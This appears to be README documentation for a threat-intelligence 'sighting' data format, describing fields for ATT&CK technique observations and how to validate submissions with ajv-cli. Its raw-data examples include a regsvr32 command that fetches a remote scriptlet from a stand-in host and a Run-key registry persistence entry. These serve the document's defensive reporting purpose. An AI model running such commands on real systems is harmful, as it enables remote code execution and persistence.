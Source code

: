 | Field            | Datatype     | Description |                                                                                                                                                                                                                                                                                                                      |
| ---------------- | ------------ | ----------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **technique_id** | String       | yes         | The ATT&CK ID (e.g., "T1086") that was observed.                                                                                                                                                                                                                                                                     |
| platform         | String       | no          | The platform this technique was observed on. Please include the full name, edition, and version. E.g., "Windows 10 Enterprise", "Windows Server 2012 Standard", "MacOS 10.13.5", "Ubuntu 14.04".                                                                                                                     |
| **start_time**   | [Timestamp](https://tools.ietf.org/html/rfc3339#page-10) | yes         | The time that this specific technique was observed.                                                                                                                                                                                                                                                                  |
| end_time         | [Timestamp](https://tools.ietf.org/html/rfc3339#page-10) | no          | The time that this specific technique sighting ended.                                                                                                                                                                                                                                                                |
| tactic           | String       | no          | The name of the tactic that this technique was used to enable. For example, a sighting of Scheduled Task could indicate whether it was used for privilege escalation or for persistence. Format should be the tactic name as referenced in ATT&CK navigator layer file format (lowercase dashed, credential-access). |
| raw_data         | List\[data\] | no          | The list of raw data, if sharable, to support this observation. Could be command lines, event records, etc. Format this as described below.                                                                                                                                                                          |

## Handling Raw Data

### Formatting

Each object in the list of raw data should consist of an object from the [CAR data model](https://car.mitre.org/data_model/) in the form of "object.action": {"field": "value"}.

For example:

**Command Line**:

```json
"process.create": {"command_line": "regsvr32.exe /i:hxxp://lolbad.com scrobj.dll"}
```

**Registry Key**:

```json
"registry.add": {
    "hive": "HKEY_CURRENT_USER",
    "key": "\Software\Microsoft\Windows\CurrentVersion\Run",
    "value": "bad.exe"
}
```

More complete examples are also below. If something isn't expressible in the CAR data model as-is, just make up an object and action that makes sense to you and we'll figure it out.

### Validating

#### AJV

AJV, or Another JSON Validator, is a useful tool to validate your data against the JSON schema.

To install, run the following commands:

- `npm install -g ajv-cli ajv-formats`

#### Validation Examples

- Validate a single file named `MY_DATA_FILE.json`
  - `ajv --strict=false validate -s src/validator/sighting_schema.json -d MY_DATA_FILE.json -c ajv-formats`
- Test a directory of files against the schema
  - `ajv --strict=false test -s src/validator/sighting_schema.json -d "*.json" -c ajv-formats --valid`
- Test included sample data in the repository (sanity check to ensure `ajv` is installed properly)
  - `ajv --strict=false test -s src/validator/sighting_schema.json -d src/validator/sighting.json -c ajv-formats --valid`
  - Should return output similar to `src/validator/sighting.json passed test`
